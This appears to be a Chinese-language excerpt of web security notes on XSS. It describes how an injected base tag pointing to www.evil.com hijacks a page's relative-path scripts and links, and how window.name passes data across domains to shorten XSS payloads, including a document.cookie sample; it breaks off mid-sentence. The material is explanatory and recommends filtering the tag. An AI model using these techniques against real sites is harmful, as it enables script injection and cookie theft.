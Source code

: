 ```
测试页面图片被找到了。
需要特别注意的是，在有的技术文档中，提到<base>标签只能用于<head>标签之内，其实这是不对的。<base>标签可以出现在页面的任何地方，并作用于位于该标签之后的所有标签。
攻击者如果在页面中插入了<base>标签，就可以通过在远程服务器上伪造图片、链接或脚本，劫持当前页面中的所有使用“相对路径”的标签。比如：
<base href="http://www.evil.com" />
….
<script src="x.js" ></script>
….
<img src="y.jpg" />
…
<a href="auth.do" >auth</a>
所以在设计XSS安全方案时，一定要过滤掉这个非常危险的标签。

```

 2016-04-06

window.name的妙用

`window.name`对象是一个很神奇的东西。对当前窗口的window.name对象赋值，没有特殊字符的限制。因为window对象是浏览器的窗体，而并非document对象，因此很多时候window对象不受同源策略的限制。攻击者利用这个对象，可以实现跨域、跨页面传递数据。在某些环境下，这种特性将变得非常有用。

 2016-04-06

```
参考以下案例。假设“www.a.com/test.html”的代码为：
<body>
<script>
window.name = "test";
alert(document.domain+"    "+window.name);
window.location = "http://www.b.com/test1.html";
</script>
</body>
这段代码将window.name赋值为test，然后显示当前域和window.name的值，最后将页面跳转到“www.b.com/test1.html”。
“www.b.com/test1.html”的代码为：
<body>
<script>
alert(document.domain+"    "+window.name);
</script>
</body>

```
这里显示了当前域和window.name的值。最终效果如下，访问“www.a.com/test.html”：
测试页面
window.name赋值成功，然后页面自动跳转到“www.b.com/test1.html”：
测试页面
这个过程实现数据的跨域传递：“test”这个值从www.a.com传递到www.b.com。

 2016-04-06

使用window.name可以缩短`XSS Payload`的长度，如下所示：

```
<script>
window.name = "alert(document.cookie)";
locaton.href = "http://www.xssedsite.com/xssed.php";
</script>


```
在同一窗口打开XSS的站点后，只需通过XSS执行以下代码即可：
